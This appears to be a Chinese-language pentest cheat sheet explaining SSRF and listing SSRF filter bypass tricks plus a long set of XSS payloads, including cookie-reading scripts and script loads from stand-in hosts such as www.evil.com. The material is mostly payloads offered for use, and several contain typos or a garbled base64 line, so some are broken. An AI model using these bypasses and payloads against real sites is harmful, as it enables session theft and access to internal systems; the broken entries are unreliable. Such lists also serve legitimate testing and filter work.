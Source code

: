## SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等

        使用@：http://A.com@10.10.10.10 = 10.10.10.10
        IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
        使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
        端口绕过：ip后面加一个端口
        xip.io：10.0.0.1.xip.io = 10.0.0.1
                www.10.0.0.1.xip.io = 10.0.0.1
                mysite.10.0.0.1.xip.io = 10.0.0.1
                foo.bar.10.0.0.1.xip.io = 10.0.0.1
        通过js跳转

## XSS

## 常见payload

```js
<script>alert(1);</script>
<img src=0 onerror=alert(1)>
"><script src=http://www.xxx.com/1.js></script>"
"></iframe><script>alert(123)></script>
<body onLoad="while(true) alert("XSS"),">
"></tile><script>alert(1111)</script>
</textarea>'"><script>alert(document.cookie)</script>
'""><script language="JavaScript"> alert("X \nS \nS"),</script>
</script></script><<<<script><>>>><<<script>alert(123)</script>
<html><noalert><noscript>(123)</noscript><script>(123)</script>
<INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
'></select><script>alert(123)</script>
'>'><script src='http://www.evil.com/XSS.js'></script>
}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
<SCRIPT>document.write("XSS");</SCRIPT>
a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a+b+c+d);
='><script>alert("XSS")</script>
<sctipt+src=">"+src="http://www.evil.com/XSS.js?68,69"></script>
<body backgroud=jabascript:'"><script>alert(navigator.userAgent)</sctipt>></body>
">XaDoS/><script>alert(document.cookie)</script><script src="http://www.site.com/X
Data:text/html;charset=utf-7;base64.Ij481.3RpdGod[jxzY3JpcHQ+YWxlcnQoMIMzNy
"<marquee><img src=k.png onerror=alert(/XSS/)/>
"<marquee><img src=k onerror=alert(/XSS/)>
'"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
</div><script>alert(123)</script>
"><iframe src="javascript:alert(document.cookie)'><iframe>
<div style="backgroud:url("javascript:alert(I)')">
<img src="java\nascript:alert(\"XSS\")">
>"><img src="javascript:alert("XSS")">
"style="background:url(javascript:alert(/XSS/))"
>"><script>alert(/XSS/)</script>
"></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html